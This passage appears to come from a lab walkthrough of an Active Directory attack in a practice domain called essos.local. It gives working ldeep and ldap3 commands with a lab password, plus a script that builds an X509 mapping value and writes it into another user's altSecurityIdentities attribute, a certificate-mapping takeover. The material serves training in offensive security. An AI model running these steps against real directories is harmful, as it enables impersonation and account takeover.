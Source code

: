 ```bash
ldeep ldap -u missandei -d essos.local -p fr3edom -s ldap://192.168.56.12 search '(samaccountname=khal.drogo)' altSecurityIdentities
[{
  "altSecurityIdentities": [],
  "dn": "CN=khal.drogo,CN=Users,DC=essos,DC=local"
}]
```

- Calculate the new attribute (with the help of [this script](https://github.com/JonasBK/Powershell/blob/master/Get-X509IssuerSerialNumberFormat.ps1) converted to python)

```python
import argparse

def get_x509_issuer_serial_number_format(serial_number: str, issuer_distinguished_name: str) -> str:
    """
    Formats the X509IssuerSerialNumber for the altSecurityIdentities attribute.
    :param serial_number: Serial number in the format "43:00:00:00:11:92:78:b0:92:e5:16:88:a6:00:00:00:00:00:11"
    :param issuer_distinguished_name: Issuer distinguished name, e.g., "CN=CONTOSO-DC-CA,DC=contoso,DC=com"
    :return: Formatted X509IssuerSerialNumber
    """
    serial_bytes = serial_number.split(":")
    reversed_serial_number = "".join(reversed(serial_bytes))
    issuer_components = issuer_distinguished_name.split(",")
    reversed_issuer_components = ",".join(reversed(issuer_components))
    return f"X509:<I>{reversed_issuer_components}<SR>{reversed_serial_number}"

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Format X509 Issuer Serial Number")
    parser.add_argument("-serial", required=True, help="Serial number in format 43:00:00:00:11:92:78:b0:92:e5:16:88:a6:00:00:00:00:00:11")
    parser.add_argument("-issuer", required=True, help="Issuer Distinguished Name e.g., CN=CONTOSO-DC-CA,DC=contoso,DC=com")

    args = parser.parse_args()
    formatted_value = get_x509_issuer_serial_number_format(args.serial, args.issuer)
    print(formatted_value)
```

- Ask the value to pass to the ldap user attribute

```bash
python3 x509_issuer_serial_number_format.py -serial "43:00:00:00:11:92:78:b0:92:e5:16:88:a6:00:00:00:00:00:11" -issuer "CN=ESSOS-CA,DC=essos,DC=local"
X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>110000000000a68816e592b078921100000043
```

- And write a script to change the ldap attribute value

```python
import ldap3
dn = "CN=khal.drogo,CN=Users,DC=essos,DC=local"
user = "essos.local\\missandei"
password = "fr3edom"
server = ldap3.Server('meereen.essos.local')
ldap_con = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
ldap_con.bind()
ldap_con.modify(dn,{'altSecurityIdentities' : [(ldap3.MODIFY_REPLACE, 'X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>110000000000a68816e592b078921100000043')]})
print(ldap_con.result)
ldap_con.unbind()
```
